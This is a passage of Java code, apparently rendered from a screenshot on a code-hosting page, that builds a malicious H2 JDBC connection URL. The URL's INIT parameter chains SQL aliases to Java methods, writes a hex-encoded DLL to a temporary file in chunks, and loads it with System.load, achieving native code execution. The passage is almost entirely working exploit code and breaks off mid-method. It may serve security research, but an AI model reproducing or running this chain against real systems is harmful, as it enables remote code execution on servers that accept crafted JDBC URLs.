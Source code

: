 ```java
        String JDBC_Url = buildExploitJdbcUrl("test","E:\\CODE_COLLECT\\Idea_java_ProTest\\H2JDBC\\src\\main\\resources\\exp.dll");
        String username = "root";
        String password = "root";
        Class.forName(ClassName);
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);
    }
    public static String buildExploitJdbcUrl(String prefix, String libPath) throws IOException {
        List<String> sqlList = new ArrayList<>();

        // Drop existing aliases
        sqlList.add("DROP ALIAS IF EXISTS CREATE_FILE");
        sqlList.add("DROP ALIAS IF EXISTS WRITE_FILE");
        sqlList.add("DROP ALIAS IF EXISTS INVOKE_METHOD");
        sqlList.add("DROP ALIAS IF EXISTS INVOKE_STATIC_METHOD");
        sqlList.add("DROP ALIAS IF EXISTS CLASS_FOR_NAME");

        // Create new aliases for Java methods
        sqlList.add("CREATE ALIAS CREATE_FILE FOR \"java.io.File.createTempFile(java.lang.String, java.lang.String)\"");
        sqlList.add("CREATE ALIAS WRITE_FILE FOR \"org.apache.commons.io.FileUtils.writeByteArrayToFile(java.io.File, byte[], boolean)\"");
        sqlList.add("CREATE ALIAS INVOKE_METHOD FOR \"org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object[])\"");
        sqlList.add("CREATE ALIAS INVOKE_STATIC_METHOD FOR \"org.apache.commons.beanutils.MethodUtils.invokeExactStaticMethod(java.lang.Class, java.lang.String, java.lang.Object)\"");
        sqlList.add("CREATE ALIAS CLASS_FOR_NAME FOR \"java.lang.Class.forName(java.lang.String)\"");

        // Create temp file
//        sqlList.add(String.format("SET @file=CREATE_FILE('%s', '.so')", prefix));
        sqlList.add(String.format("SET @file=CREATE_FILE('%s', '.dll')", prefix));

        // Read .so file and hex encode
        byte[] fileBytes = Files.readAllBytes(new File(libPath).toPath());
        String hex = bytesToHex(fileBytes);

        // Chunked write (e.g., 500 chars = 250 bytes)
        int chunkSize = 500;
        for (int i = 0; i < hex.length(); i += chunkSize) {
            String chunk = hex.substring(i, Math.min(i + chunkSize, hex.length()));
            sqlList.add(String.format("CALL WRITE_FILE(@file, X'%s', TRUE)", chunk));
        }

        // Get path and load library
        sqlList.add("SET @path=INVOKE_METHOD(@file, 'getAbsolutePath', null)");
        sqlList.add("SET @clazz=CLASS_FOR_NAME('java.lang.System')");
        sqlList.add("CALL INVOKE_STATIC_METHOD(@clazz, 'load', @path)");

        // Combine all SQLs into H2 INIT format
        StringBuilder init = new StringBuilder();
        for (String stmt : sqlList) {
            init.append(stmt).append("\\;");
        }

        // Final JDBC URL
        String jdbcUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=" + init;
        System.out.println(jdbcUrl);
        return jdbcUrl;
    }

    private static String bytesToHex(byte[] bytes) {
        StringBuilder sb = new StringBuilder(bytes.length * 2);
```